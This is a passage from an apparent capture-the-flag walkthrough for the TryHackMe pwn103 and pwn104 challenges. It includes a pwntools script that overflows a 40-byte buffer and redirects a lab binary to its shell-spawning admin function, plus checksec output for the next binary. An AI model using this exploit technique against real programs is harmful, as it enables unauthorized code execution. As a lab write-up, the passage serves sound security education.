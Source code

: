 Ah yes we can see that we have a call to system, what this does is call system and spawn a shell. 

### Exploit

So after we have everything we need we can come up with an exploit. We can first run the binary to see how it runs normaly. 

![5](https://i.ibb.co/DLvBbC0/intro.png)

So going to option 3 we can get a hint that there is where we have the vuln.

```
from pwn import *

p = process("./pwn103.pwn103") 
#p = remote("thm_ip", 9003)

admins_addr = p64(0x401554) 
return_addr = p64(0x401677)

payload = b'A' * 40 # found buffer at 40
payload += return_addr
payload += admins_addr

pause()

p.sendlineafter(":", "3")
p.sendline(payload)
p.interactive()

```
Here, ```admins_addr``` and ```return_addr``` are two addresses in the binary, represented as 64-bit packed values (p64). The return function serves as the address the program will attempt to return to after completing a function call.
The payload starts with 40 bytes of 'A's to fill the buffer until a potential buffer overflow point is reached. Then, it appends the return_addr followed by admins_addr in an attempt to redirect program execution to the admins_addr after overwriting the return address.

```pause()``` is used to pause the script execution, giving you time to attach a debugger if needed before the interaction with the vulnerable program begins.
```sendlineafter()``` sends the string "3" to the program, which directs the program to the general channel where we found the vuln hint.
```p.interactive()``` hands over the control of the program to you interactively, allowing you to send further commands manually and explore the program's state after the exploit attempt.

## 104
### Introduction

First of all we are going to do some file checks, to see the binary protections and determine the file type

```
pwn104.pwn104: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=60e0bab59b4e5412a1527ae562f5b8e58928a7cb, for GNU/Linux 3.2.0, not stripped
```

We can see that the binary is a 64 bit Least Significant Byte executable, in other words it uses little endian. The binary is dynamically linked to a LIBC and it is not stripped. 

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```
```